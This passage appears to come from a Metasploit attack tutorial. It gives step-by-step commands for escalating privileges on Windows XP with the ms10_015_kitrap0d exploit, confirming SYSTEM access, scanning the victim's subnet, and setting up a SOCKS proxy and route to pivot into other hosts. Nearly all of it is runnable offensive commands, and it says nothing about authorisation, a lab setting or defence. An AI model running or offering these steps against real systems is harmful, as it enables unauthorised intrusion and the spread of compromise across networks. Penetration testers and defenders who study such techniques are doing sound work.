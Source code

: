 ### ⚔️ Use an exploit (example for vulnerable Windows XP):

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
exploit
```

After success:

```bash
getuid
```

If you now see:

```
NT AUTHORITY\SYSTEM
```

You’ve escalated.

---

## 🔁 **STEP 3: Lateral Movement**

Assuming another vulnerable host exists in the network (e.g., `192.168.1.53`), let’s pivot.

### 🔎 Scan the local network from victim:

```bash
run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
```

Identify live hosts (like `ringworm`, `chagas`, etc.).

---

### 🧬 Enable pivoting:

From the current Meterpreter session:

```bash
background
use auxiliary/server/socks_proxy
run
```

### 🔀 Add the route:

```bash
route add 192.168.1.0 255.255.255.0 1
```

Now, you can attack other machines as if from the first victim.

---
